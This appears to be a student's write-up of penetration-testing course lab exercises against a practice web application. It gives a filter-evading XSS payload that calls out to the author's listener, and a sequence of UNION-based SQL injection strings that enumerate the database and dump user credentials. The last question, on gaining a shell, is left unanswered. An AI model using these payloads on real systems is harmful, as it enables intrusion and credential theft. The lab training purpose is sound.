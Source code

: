 ### 9.5.1 Exercises
#### 1. Identify and exploit the XSS vulnerability in the web application.

The Search menu has a XSS vulnerability even though it attempts to sanitize the code, it does not do so recursively, allowing an attacker to imbed tags within tags that will survive the sanitization process.  The filter differs slightly on how it handles these tags, but I was able to use it to have the client attempt to retrieve a page from my netcat listener using this string:

`http://192.168.216.10:9090/search?search=<ifriframeame src=http://192.168.119.216:8000/cool.jpg height="0" width="0"></ifriframeame>`

This causes the client to contact my netcat listener:

![image-20200701122132198](.9.5.1-NR.assets/image-20200701122132198.png)

#### 2. Identify and exploit the SQL injection vulnerability in the web application.

```sql
--Enumerated columns
gadget') order by 5--

--Discovered DB Version
gadget') union all select 1,'2',H2VERSION(),4,5 from DUAL--

--Enumerated Tables
gadget') union all select 1,'2',table_name,4,5 from information_schema.tables--

--Enumerated Users Table Columns
gadget') union all select 1,'2',column_name,4,5 from information_schema.columns where table_name=UPPER('USERS')--

--Displayed User Table contents
gadget') union all select 1,username,password,4,5 from users--
```

DB Version: 

![image-20200701123616606](.9.5.1-NR.assets/image-20200701123616606.png)

Admin User: 

![image-20200627223255481](.9.5.1-NR.assets/image-20200627223255481.png)

#### 3. Is it possible to gain a shell through the SQL injection vulnerability? Why or why not?

